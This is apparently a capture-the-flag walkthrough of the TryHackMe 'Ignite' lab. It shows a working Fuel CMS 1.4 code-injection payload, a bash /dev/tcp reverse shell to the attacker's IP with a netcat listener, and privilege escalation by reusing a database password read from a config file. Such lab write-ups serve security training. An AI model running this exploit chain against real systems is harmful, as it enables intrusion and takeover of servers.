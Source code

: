 # TryHackMe Ignite

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Ignite](https://tryhackme.com/room/ignite)|
|---|---|
|**Created by**|[DarkStar7471](https://tryhackme.com/p/DarkStar7471)|
|**Date release**|864 days old (9/4/2021)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.105.151
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.105.151 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 22:50 +07
Nmap scan report for 10.10.105.151
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.48 seconds
```

### Fuel CMS 1.4

The home page at port 80 is Fuel CMS version 1.4

![](images/1.png)

At `robots.txt`, I saw an uri `/fuel/`

```
┌──(Hades㉿10.11.32.198)-[2.3:22.2]~/walkthrough/tryhackme/ignite
└─$ curl http://10.10.105.151/robots.txt
User-agent: *
Disallow: /fuel/
```

Go to this page, I saw an login page.

![](images/2.png)

Try to login with common credential `admin:admin`, I got admin page.

![](images/3.png)

Search public exploit for Fuel CMS 1.4, there are 2 RCE exploit at `searchsploit`.

```
┌──(Hades㉿10.11.32.198)-[2.2:21.6]~/walkthrough/tryhackme/ignite
└─$ searchsploit Fuel CMS 1.4
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                   | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                   | php/webapps/49487.rb
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)         | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authentica | php/webapps/48778.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Inject Code Execution

Follow exploit `linux/webapps/47138.py`, I know that the exploit call system and run injected command in the system.

`http://10.10.105.151/fuel/pages/select/?filter=%27%2bpi(print(%24a%3d%27system%27))%2b%24a(%27id%27)%2b%27` 

Try to sent `id` command using `curl` and I confirm this payload was executed.

```
┌──(Hades㉿10.11.32.198)-[2.6:23.8]~/walkthrough/tryhackme/ignite
└─$ curl --silent 'http://10.10.105.151/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27id%27%29%2b%27' | grep www-data     
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
</div>systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
<snip>
```

Using the same method to execute reverse shell to kali machine

```
┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ hURL -U 'bash -c "sh -i >& /dev/tcp/10.11.32.198/443 0>&1"'

Original    :: bash -c "sh -i >& /dev/tcp/10.11.32.198/443 0>&1"
URL ENcoded :: bash%20-c%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.32.198%2F443%200%3E%261%22

┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ cmd=bash%20-c%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.32.198%2F443%200%3E%261%22

┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ curl "http://10.10.105.151/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27$cmd%27%29%2b%27"
```

At the listener, I got reverse shell

```
┌──(Hades㉿10.11.32.198)-[2.7:23.9]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.105.151] 32810
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Mysql Password to Root

After enum local machine, I found file `database.php` contain database password.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<snip>
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
```

I enum database with knowed credential, but there are no value infomation in there. But when I try to login to root with same mysql's password: `mememe`, I got root access.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ su  
Password: 
root@ubuntu:/var/www/html/fuel/application/config# id
uid=0(root) gid=0(root) groups=0(root)
```